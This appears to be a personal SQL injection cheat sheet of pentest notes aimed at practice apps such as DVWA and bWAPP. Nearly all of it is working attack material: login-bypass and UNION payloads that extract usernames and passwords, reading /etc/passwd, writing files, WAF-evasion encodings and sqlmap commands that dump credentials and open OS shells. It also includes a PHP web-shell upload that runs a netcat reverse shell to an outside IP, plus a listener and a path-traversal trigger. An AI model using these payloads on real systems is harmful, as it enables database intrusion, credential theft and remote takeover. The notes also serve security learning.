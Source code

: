 # SQL Injection

## Cheat Sheets
- [PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Exploitation
- Login Bypass
  - Username : ```administrator'--``` , ```admin'#``` 
  - password: ```1' or 1=1#```

- Where cluase : ```' OR 1=1--``` 

- UNION
  - ```' UNION SELECT NULL--``` , ```' UNION SELECT NULL,NULL--``` , ...
    - determining the number of columns  
  - ```' UNION SELECT 'abcdef',NULL,NULL--``` , ```' UNION SELECT NULL,'abcdef',NULL--``` , ...
    - finding a column containing text
  - ```' UNION SELECT username,password FROM users--```
    - retrive data from other tables
  - ```' UNION SELECT NULL,username||'~'||password FROM users--```
    - retrive multiple values in a single columns
  - querying the database type and version
    - Oracle : ```' UNION SELECT BANNER,NULL FROM v$version--```
    - MYSQL & MSSQL : ```' UNION SELECT @@version, NULL#```  (must use Burp because of #)
  - listing the database contents
    - non-Oracle
      - ```' UNION SELECT table_name, NULL FROM information_schema.tables--```
      - ```' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--```
      - ```' UNION SELECT username, password FROM users```
    - Oracle
      - ```' UNION SELECT table_name,NULL FROM all_tables--```
      - ```' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS'--```
      - ```' UNION SELECT USERNAME, PASSWORD FROM+USERS--```

## Payloads
```
a'or'1'='1
a' or '1'='1
a' or '1'='1'--
a' or '1'='1'#
a' or '1'='1'%23
a' or 1=1%23
1 or 1=1
1 or 1=1 limit 2,1
a'%09or%09'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Tips
- True statement: ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1```
- False statement: ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```
- Space: ```+``` & ```/**/``` & ```%20```
- Comment: ```/*``` & ```//``` & ```;//``` & ```#``` & ```%23```

## Exploit
- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin
    - ```nc -vv -l -p 8080```
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

## Mitigation
- Use parametrized statements, separate data from sql code


## SQLMAP
- Usage
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title```
    - Define "title" as the test parameter (input string was passed as value of title) 
  - ``` sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title --dbs```
    - Get a list of databases present on the database server 
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP --tables``` 
    - Get a list of tables for database bWAPP
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users --columns``` 
    - Get the list of columns in the users table of bWAPP database
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump``` 
    - Dump password and email for admin from the users table. Press 'n' twice when prompted

- Burp & SQLMAP
  - Intercept request in Burp, Right-click on it and choose "Copy to file"
  - ```sqlmap -r request -p title```

- Switches
  - Tor
    - ```--tor```
  - Shell
    - ```sqlmap -u "..." --sql-shell```
    - ```sqlmap -u "..." --os-shell```
  - WAF Bypass 
    - ```--tamper=space2dash, hex2char --dbs```
    - Path: /usr/share/sqlmap/tamper 
